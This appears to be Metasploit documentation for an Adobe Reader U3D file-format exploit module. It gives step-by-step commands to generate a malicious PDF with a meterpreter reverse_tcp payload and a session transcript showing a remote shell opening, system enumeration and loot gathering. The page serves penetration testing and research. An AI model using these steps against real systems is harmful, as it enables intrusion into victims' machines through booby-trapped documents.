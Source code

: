## Vulnerable Application

This module exploits a vulnerability in the U3D handling within versions 9.x through 9.4.6 and 10 through to 10.1.1 of Adobe Reader.
The vulnerability is due to the use of uninitialized memory. Arbitrary code execution is achieved by embedding specially
crafted U3D data into a PDF document. A heap spray via JavaScript is used in order to ensure that the memory
used by the invalid pointer issue is controlled.

Link to vulnerable software [OldVersion](http://www.oldversion.com/windows/download/acrobat-reader-9-4-0)

## Verification Steps

   1. Install application on the target machine
   2. Start msfconsole
   3. Do: ```use exploit/windows/fileformat/adobe_reader_u3d```
   4. Do: ```set payload [windows/meterpreter/reverse_tcp]```
   5. Do: ```set LHOST [IP]```
   6. Do: ```exploit```
   7. Do: ```use [exploit/multi/handler```
   8. Do: ```set LHOST [IP]```
   9. Do: ```exploit```
   10. Do: Open PDF on target machine with vulnerable software

## Options

  **FILENAME**

  The file name.

  **OBFUSCATE**

  Enable JavaScript obfuscation

## Scenarios

### Adobe Reader 9.4.0 on Windows XP (5.1 Build 2600, Service Pack 3)

  ```
  msf > use exploit/windows/fileformat/adobe_reader_u3d
  msf exploit(windows/fileformat/adobe_reader_u3d) > set FILENAME myFile.pdf
    FILENAME => myFile.pdf
  msf exploit(windows/fileformat/adobe_reader_u3d) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(windows/fileformat/adobe_reader_u3d) > exploit

    [*] Creating 'myFile.pdf' file...
    [+] myFile.pdf stored at /root/.msf4/local/myFile.pdf
  msf exploit(windows/fileformat/adobe_reader_u3d) > use exploit/multi/handler
  msf exploit(multi/handler) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf5 exploit(multi/handler) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] Sending stage (180291 bytes) to 192.168.1.5
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.5:1103) at 2019-12-05 18:01:07 -0700
  meterpreter > sysinfo
    Computer        : COMPUTER_1
    OS              : Windows XP (5.1 Build 2600, Service Pack 3).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: COMPUTER_1\USER
  meterpreter > run post/windows/gather/enum_applications

    [*] Enumerating applications installed on COMPUTER_1

    Installed Applications
    ======================

    Name                Version
    ----                -------
    Adobe Reader 9.4.0  9.4.0


    [+] Results stored in: /root/.msf4/loot/20191205180436_default_192.168.1.5_host.application_540854.txt
  ```
